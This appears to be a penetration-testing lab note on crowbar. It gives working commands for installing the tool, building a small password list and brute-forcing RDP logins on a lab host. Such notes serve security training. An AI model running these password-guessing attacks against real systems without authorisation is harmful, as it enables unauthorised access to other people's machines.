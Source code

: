 ## crowbar

Network authentication cracking tool primarily intended to use SSH keys rather than passwords.

One of few tools that can reliably and efficiently perform RDP authentication attacks on Modern Windows clients.

### Remote Desktop Protocol Attack

1. Install crowbar

   ```bash
   sudo apt install crowbar
   ```

2. Generate a wordlist to use with it:

   ```bash
   echo hacker > password-file.txt
   echo password >> password-file.txt
   echo kali >> password-file.txt
   echo ilak >> password-file.txt
   echo lab >> password-file.txt
   ```

3. Run crowbar to initiate the attack
   NOTE:  We are using only 1 thread since RDP does not reliably handle multiple threads

   ```bash
   crowbar -b rdp -s 192.168.216.10/32 -u admin -C /home/coyote/oscplab/passwords/password-file.txt -n 1
   
   # Options
   -b rdp	# Specifies RDP protocol
   -s		# Target server
   -u		# Username
   -C		# Wordlist
   -n		# Number of threads
   ```

   